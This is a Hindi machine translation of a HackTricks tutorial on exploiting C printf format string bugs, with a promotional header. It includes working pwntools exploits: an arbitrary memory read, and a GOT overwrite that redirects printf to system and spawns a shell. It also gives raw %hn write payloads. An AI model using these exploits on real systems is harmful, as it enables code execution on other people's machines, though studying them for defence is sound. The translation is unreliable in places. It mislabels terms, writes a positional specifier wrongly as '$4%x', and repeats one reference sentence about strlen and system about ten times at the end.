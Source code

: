 # फॉर्मेट स्ट्रिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**।**
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** (https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को PR जमा करके**।

</details>

## मूल जानकारी

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग किसी स्ट्रिंग को **प्रिंट** करने के लिए किया जा सकता है। इस फ़ंक्शन की पहली पैरामीटर उम्मीदवार के रूप में **फॉर्मेटर्स के साथ कच्चा पाठ** की उम्मीद करता है। उम्मीदवार के रूप में **उम्मीदवार के पहले तर्क** का उपयोग करने पर संक्रमित होता है जब यह फ़ंक्शन। अटैकर को **विशेष इनपुट तैयार करने की अनुमति** होती है जो **printf फॉर्मेट स्ट्रिंग** क्षमताओं का दुरुपयोग करके किसी भी पते में किसी भी डेटा को पढ़ने और **लिखने की क्षमता** होती है (पढ़ने योग्य/लिखने योग्य)। इस तरह से **विचारशील कोड** को **चलाने** की क्षमता होती है।

#### फॉर्मेटर्स:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**उदाहरण:**

* वंलरेबल उदाहरण:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* सामान्य उपयोग:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* गुम होने वाले तर्कों के साथ:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **पॉइंटर तक पहुंचना**

फॉर्मेट **`%<n>$x`**, जहां `n` एक संख्या है, printf को इंडिकेट करने की अनुमति देता है कि n पैरामीटर (स्टैक से) का चयन करें। तो यदि आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं तो आप यह कर सकते हैं:
```c
printf("%x %x %x %x")
```
और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप यह कर सकते हैं:
```c
printf("$4%x")
```
और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `pr`**`intf` पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** जब `printf` को कॉल किया जाता है, तो उसका इनपुट स्टैक में होगा, जिसका मतलब है कि वह विशिष्ट मेमोरी पतों को स्टैक में लिख सकता है।

{% hint style="danger" %}
इस इनपुट को नियंत्रित करने वाला एक हमलावर, **स्टैक में एक arbitrary पता जोड़ सकता है और `printf` को उन्हें एक्सेस करने दे सकता है**। अगले खंड में यह व्यवहार कैसे उपयोग करने के बारे में समझाया जाएगा।
{% endhint %}

## **अर्बिट्रेरी पठन**

यह संभव है कि हम **`$n%s`** फॉर्मेटर का उपयोग करें **`printf`** को **पता** प्राप्त करने के लिए **n स्थान** में स्थित पता प्राप्त करें, इसके बाद और **उसे एक स्ट्रिंग की तरह प्रिंट करें** (0x00 पाए जाने तक प्रिंट करें)। इसलिए यदि बाइनरी का बेस पता है **`0x8048000`**, और हमें पता है कि उपयोगकर्ता इनपुट स्टैक में 4वें स्थान से शुरू होता है, तो बाइनरी की शुरुआत प्रिंट करना संभव है:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
ध्यान दें कि आप 0x8048000 पते को इनपुट की शुरुआत में नहीं डाल सकते क्योंकि इस पते के अंत में 0x00 डाल दिया जाएगा।
{% endhint %}

## **अनियमित लेखन**

फॉर्मेटर **`$<num>%n`** **उस पते पर लिखता है** जिसे \<num> पैरामीटर में स्टैक में निर्दिष्ट किया गया है, जिसमें **लिखे गए बाइट की संख्या** होती है। यदि एक हमलावर printf के साथ जितने वर्ण लिख सकता है, तो वह **`$<num>%n`** को किसी भी पते पर किसी भी संख्या लिखने के लिए सक्षम हो जाएगा।

भाग्यशाली तौर पर, अंक 9999 लिखने के लिए, इसे करने के लिए इनपुट में 9999 "A" जोड़ने की आवश्यकता नहीं है, इसे करने के लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करना संभव है ताकि **`<num-write>`** को **`num` स्थान** द्वारा संकेतित पते पर लिखा जा सके।
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
हालांकि, ध्यान दें कि आम तौर पर पता लिखने के लिए एक पता जैसे `0x08049724` (जो एक बड़ी संख्या है एक साथ लिखने के लिए), **`$n`** की बजाय **`$hn`** का उपयोग किया जाता है। इससे **केवल 2 बाइट लिखने** की अनुमति होती है। इसलिए यह कार्रवाई दो बार की जाती है, पहले सबसे उच्च 2B के लिए और दूसरी बार सबसे कम वाले के लिए।

इसलिए, यह सुरक्षा दोष किसी भी पते में कुछ भी लिखने की अनुमति देता है (विवेकात्मक लेखन).

इस उदाहरण में, लक्ष्य होगा किसी बाद में बुलाया जाने वाला **GOT** तालिका में एक **कार्य** के **पते** को **अधिलेखित** करना। यद्यपि इससे अन्य विवेकात्मक लेखन को दुरुपयोग किया जा सकता है:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

हम एक **कार्य** को **अधिलेखित** करने जा रहे हैं जो अपने **प्रारंभिक** को **उपयोगकर्ता** से **प्राप्त** करता है और इसे **`system`** **कार्य** की ओर इशारा करता है।
जैसा कि उल्लिखित है, पता लिखने के लिए आम तौर पर 2 कदम आवश्यक होते हैं: आप **पहले 2 बाइट** पते का लिखते हैं और फिर दूसरे 2 करते हैं। इसे करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** पते के 2 उच्च बाइट को बुलाया जाता है
* **LOB** पते के 2 निचले बाइट को बुलाया जाता है

फिर, चाहे जैसे ही प्रारूप स्ट्रिंग काम करती है, आपको **सबसे छोटा पहले** लिखना होगा \[HOB, LOB] और फिर दूसरा।

यदि HOB < LOB\
`[पता+2][पता]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[पता+2][पता]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की सुरक्षा दोष के लिए एक उत्पीड़न तैयार करने के लिए एक टेम्पलेट पा सकते हैं:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

या यह मौलिक उदाहरण [**यहाँ से**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) मिल सकता है:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 बिट, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, बेसिक तरीके से फॉर्मेट स्ट्रिंग का उपयोग करके स्टैक से फ्लैग लीक करने के लिए (एक्सीक्यूशन फ्लो को बदलने की आवश्यकता नहीं है)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, फॉर्मेट स्ट्रिंग का उपयोग करके पता `fflush` को जीतने के लिए विन फंक्शन के साथ अधिरोहित करने के लिए (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई नहीं, फॉर्मेट स्ट्रिंग का उपयोग करके मेन में एक पते लिखने के लिए `.fini_array` में और `system` में पता लिखने के लिए जीओटी तालिका में `strlen` को पॉइंट करने वाले पते को लिखने के लिए। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में। जब फ्लो मुख्य में वापस जाता है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को पॉइंट करने वाले जीओटी तालिका में।
